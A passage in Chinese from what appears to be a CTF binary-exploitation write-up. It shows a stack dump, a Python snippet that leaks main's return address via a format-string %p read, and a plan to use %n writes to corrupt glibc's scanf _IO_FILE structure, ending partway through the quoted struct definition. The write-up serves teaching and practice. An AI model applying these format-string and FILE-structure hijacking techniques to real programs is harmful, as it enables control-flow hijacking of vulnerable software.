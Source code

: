 ```
0c:0060│      0x7fffb8e18508 ◂— 0xc7f0a378134b9900
0d:0068│      0x7fffb8e18510 —▸ 0x55ff36954d30 ◂— push   r15 # main rbp
0e:0070│      0x7fffb8e18518 —▸ 0x7fa5b79af830 (__libc_start_main+240) #mian的返回地址
```

以上0x7fffb8e18518就是我们要获取的main ret的堆栈地址, 在这里不能直接泄漏堆栈中的main ret地址,但可以通过泄漏 rbp地址来+8即可获取man ret.

```python
#leaking main ret in stack
	sla('>>', str(2))
	sla(':', str(7))
	p = '%12$p'
	sl(p)
	ru('0x')
	main_ret = int(r(12),16) + 0x8
```


### 修改_IO_FILE将数据打入stack

目前,准备工作基本完毕, 现在就是要靠修改main ret地址来劫持程序流, 但是我们想构造payload，往main_ret处写数据，但是光一个p64(main_ret)包装就占了8个字符，而我们最多允许输入7个字符，setName，它不是白放那里的，它有着重要的作用.

它也可以接受7个字符，我们可以把main_ret存入a1中，虽然只允许7个字符，p64()有8字节，但是末尾一般都是0，由于是低位存储，也就是数据的前导0被舍弃，没有影响，除非那个数据8字节没有前导0

然后，发现，%16$p输出的就是a1的数据,于是，可以先setName(p64(addr))，然后利用%16$n来对addr处写数据然而，我们这样来直接写main_ret处的数据，还是不行，因为我们构造的payload始终长度都会大于7,于是，就需要用到一个新知识了，为了绕过7个字符的限制，利用printf漏洞先去攻击scanf内部结构，然后就可以直接利用scanf往目标处输入数据，这就需要去了解scanf的源码.

#### _IO_FILE struct

```c
/*
_IO_FILE *stdin = (FILE *) &_IO_2_1_stdin_;    
_IO_FILE *stdout = (FILE *) &_IO_2_1_stdout_;    
_IO_FILE *stderr = (FILE *) &_IO_2_1_stderr_; 
*/
/* The tag name of this struct is _IO_FILE to preserve historic 
   C++ mangled names for functions taking FILE* arguments. 
   That name should not be used in new code.  */  
struct _IO_FILE  
{  
  int _flags;       /* High-order word is _IO_MAGIC; rest is flags. */  
  
  /* The following pointers correspond to the C++ streambuf protocol. */  
  char *_IO_read_ptr;   /* Current read pointer */  
  char *_IO_read_end;   /* End of get area. */  
  char *_IO_read_base;  /* Start of putback+get area. */  
  char *_IO_write_base; /* Start of put area. */  
  char *_IO_write_ptr;  /* Current put pointer. */  
  char *_IO_write_end;  /* End of put area. */  
  char *_IO_buf_base;   /* Start of reserve area. */  
  char *_IO_buf_end;    /* End of reserve area. */  
  
  /* The following fields are used to support backing up and undo. */  
  char *_IO_save_base; /* Pointer to start of non-current get area. */  
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */  
  char *_IO_save_end; /* Pointer to end of non-current get area. */  
  
  struct _IO_marker *_markers;  
  
  struct _IO_FILE *_chain;  
  
  int _fileno;  
  int _flags2;  
```